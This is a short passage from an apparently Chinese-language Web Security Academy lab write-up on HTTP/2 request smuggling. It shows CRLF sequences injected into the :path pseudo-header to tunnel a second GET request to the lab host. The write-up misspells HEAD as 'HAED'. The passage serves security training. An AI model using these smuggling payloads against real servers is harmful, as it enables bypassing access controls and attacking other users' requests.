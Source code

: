 ```c
#Name
:path
#Value
/?cachebuster=1 HTTP/1.1\r\n
Foo: bar
```

![img](assets/1706773318-2089cb2990331aedd38f97b0181e227d.png)

Step 3：从上面可以看到响应正常，说明我们可以借助:path 进行走私请求，随后改变请求方法为 HAED，试一下进行隧道传输，从响应正文中可以看到包含了：HTTP/1.1 200 OK，说明我们的走私成功

```c
/?cachebuster=1 HTTP/1.1\r\n
Host:0a8f00d80344b40981c0e8ab00300007.web-security-academy.net\r\n
\r\n
GET /post?postId=1 HTTP/1.1\r\n
Foo: bar
```

![img](assets/1706773318-b47dc83abce7a3662486b166074ad2a0.png)
